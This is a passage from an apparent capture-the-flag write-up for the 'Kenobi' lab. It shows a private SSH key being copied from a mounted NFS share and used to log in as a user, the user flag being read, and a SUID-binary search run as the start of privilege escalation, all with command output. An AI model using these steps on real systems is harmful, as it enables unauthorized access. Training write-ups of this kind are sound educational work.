 ```sh
drwxrwxrwt  6 root root    4,0K 30. Okt 10:00 tmp/
drwxr-xr-x  3 root root    4,0K  4. Sep 2019  www/
```
  

<ins>SSH connection with the priv_key</ins>
  
```sh
cp /mnt/kenobiNFS/tmp/id_rsa .           

la               
insgesamt 16K
drwxr-xr-x 1 kali kali  248 30. Okt 09:28 downloads/
drwxr-xr-x 1 kali kali    0 29. Okt 20:23 gobuster/
-rw-r--r-- 1 kali kali 1,7K 30. Okt 10:10 id_rsa
-rwxr-xr-x 1 kali kali  12K 30. Okt 09:29 log.txt*
drwxr-xr-x 1 kali kali  264 30. Okt 09:05 nmap/

sudo chmod 600 id_rsa                       

ssh -i id_rsa kenobi@10.10.248.210
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.248.210 (10.10.248.210)'


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ cat /home/kenobi/user.txt

```

###
**Task 3.1 - 3.5 solved**
###    
  

# <ins>Privilege escalation</ins>
  
  
## <ins>SUID Escalation</ins>
  
  
> The Task 4 give us a hint we had to look for SUIDs.
  

```sh
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
```